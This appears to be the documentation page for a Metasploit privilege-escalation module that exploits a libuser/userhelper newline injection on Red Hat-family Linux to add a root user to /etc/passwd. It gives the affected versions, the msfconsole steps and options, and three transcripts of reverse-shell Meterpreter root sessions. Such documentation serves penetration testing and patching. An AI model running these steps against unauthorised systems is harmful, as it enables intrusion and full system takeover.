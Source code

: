 ## Description

  This module attempts to gain root privileges on Red Hat based Linux
  systems, including RHEL, Fedora and CentOS, by exploiting a newline
  injection vulnerability in `libuser` and `userhelper` versions prior
  to `0.56.13-8` and version `0.60` before `0.60-7`.

  This module makes use of the `roothelper.c` exploit from Qualys to
  insert a new user with `UID=0` in `/etc/passwd`.

  Note, the password for the current user is required by `userhelper`.

  Note, on some systems, such as Fedora 11, the user entry for the
  current user in `/etc/passwd` will become corrupted and exploitation
  will fail.


## Vulnerable Application

  This module has been tested successfully on libuser packaged versions:

  * `0.56.13-4.el6` on CentOS 6.0 (x86_64);
  * `0.56.13-5.el6` on CentOS 6.5 (x86_64);
  * `0.60-5.el7` on CentOS 7.1-1503 (x86_64);
  * `0.56.16-1.fc13` on Fedora Desktop 13 (i686);
  * `0.59-1.fc19` on Fedora Desktop 19 (x86_64);
  * `0.60-6.fc21` on Fedora Desktop 21 (x86_64); and
  * `0.56.13-5.el6` on Red Hat 6.6 (x86_64).

  RHEL 5 is vulnerable, however the installed version of `glibc` (`2.5`)
  is missing various functions required by `roothelper.c`.

  RHEL 7 systems are reportedly affected, but untested.


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/libuser_roothelper_priv_esc`
  4. `set SESSION [SESSION]`
  5. `set PASSWORD [PASSWORD]`
  6. `check`
  7. `run`
  8. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **PASSWORD**

  Password for the current user. (default: blank)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether `roothelper.c` should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Scenarios

  ### libuser 0.56.13-5.el6 on Red Hat 6.6 (x86_64)

  ```
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > set password password
  password => password
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.QQ4pE9nj.c' (29342 bytes) ...
  [*] Launching roothelper exploit (Timeout: 180)...
  [+] Success! User 'a' added to /etc/passwd
  [*] Writing '/tmp/.SJAEHS' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.245
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.245:46065) at 2018-04-23 13:08:51 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Red Hat Enterprise Linux 6 (Linux 2.6.32-504.el6.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

  ### libuser 0.60-5.el7 on CentOS 7.1-1503 (x86_64)

  ```
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > set password password
  password => password
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.Ake5GA' (103396 bytes) ...
  [*] Launching roothelper exploit (Timeout: 180)...
  [+] Success! User 'a' added to /etc/passwd
  [*] Writing '/tmp/.vbahMY' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.242
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.242:48332) at 2018-04-23 13:13:22 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Red Hat 7.1 (Linux 3.10.0-229.el7.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

  ### libuser 0.60-6.fc21 on Fedora Desktop 21 (x86_64)

  ```
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > set password password
  password => password
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.ByQC9FHS.c' (29342 bytes) ...
  [*] Launching roothelper exploit (Timeout: 180)...
  [+] Success! User 'a' added to /etc/passwd
  [*] Writing '/tmp/.WnBXJkWDa' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.240
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.240:53201) at 2018-04-23 13:16:32 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Fedora 21 (Linux 3.17.4-301.fc21.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

